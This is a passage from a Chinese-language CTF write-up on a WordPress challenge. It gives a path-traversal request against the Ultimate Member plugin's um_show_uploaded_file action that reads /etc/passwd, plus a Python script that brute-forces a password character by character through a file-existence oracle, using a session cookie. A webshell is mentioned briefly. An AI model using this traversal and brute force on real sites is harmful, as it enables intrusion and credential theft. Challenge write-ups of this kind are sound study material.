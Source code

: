 ```dockerfile
ENTRYPOINT sed -i "s/FLAG/$FLAG/" /secretpath/secretname  && export FLAG=not_flag && FLAG=not_flag && /usr/local/bin/docker-php-entrypoint

```

然后本地登录进去直接一个写webshell就可以

<img src="https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220802110929320.png" alt="image-20220802110929320" style="zoom:33%;" />

![image-20220802111027328](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220802111027328.png)

这是本地的环境，利用比较简单

看下远程的环境，我们需要一个账号和密码，才能登录进去

看前面那个截图的提示，是一个插件漏洞，在网上找到了一个

https://www.zilyun.com/23036.html ，版本刚好符合

```
POST /wp-admin/admin-ajax.php HTTP/1.1<br>
Accept: */*<br>
Accept-Language: en-GB,en;q=0.5<br>
Accept-Encoding: gzip, deflate<br>
Content-Type: application/x-www-form-urlencoded; charset=UTF-8<br>
X-Requested-With: XMLHttpRequest<br>
Content-Length: 158<br>
Connection: close<br>
Cookie: [subscriber+]<br>
<br>
field_name=test&filepath=/../../../../../../../../etc/passwd&field_id=um_field_4&form_key=Upload&action=um_show_uploaded_file&pf_nonce=4286c1c56a&is_ajax=true
```

假设响应包含um_remove_file文件，则该文件存在于效力器上，否则不存在

这个只能判断文件是否存在

刚好可以，因为我们的账号密码就是以文件的形式存在，直接开始脚本爆破，只是这个注意需要将cookie的值`request`上去

```php
import requests 
import string
s = string.ascii_letters
url="http://eci-2zefnon2z47ho8r5grw9.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php"
passwd=''
headers={'Cookie':'wordpress_435742472111dc623e9a384868ccf9e6=admin1%7C1659436049%7CiBbHcYGxHiaSkxyIAxDGCI9wgUGeUccPqC7wnsdzHHa%7Cefcfb909cd2a9a5d901cc939e9e4d70adba70d8f8328b63b692a8a9a699440f2; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_435742472111dc623e9a384868ccf9e6=admin1%7C1659436049%7CiBbHcYGxHiaSkxyIAxDGCI9wgUGeUccPqC7wnsdzHHa%7C7fda55d75fd7e914075e00e1a09991f11074e6744482274415409c3854beba06; wp-settings-time-2=1659263320'}
for i in range(1,16):
    print(i)
    for j in s:
        s=str(i)+j
        r=requests.post(url,data={'field_name':'test',
            'filepath':'/../../../../../../../password/'+s,
            'field_id':'um_field_4',
            'form_key':'Upload',
            'action':'um_show_uploaded_file',
            'pf_nonce':'eaff7e1a60',
            'is_ajax':'true'},headers=headers)
        if "remove" in r.text:
            passwd+=j
            print(passwd)
            break

```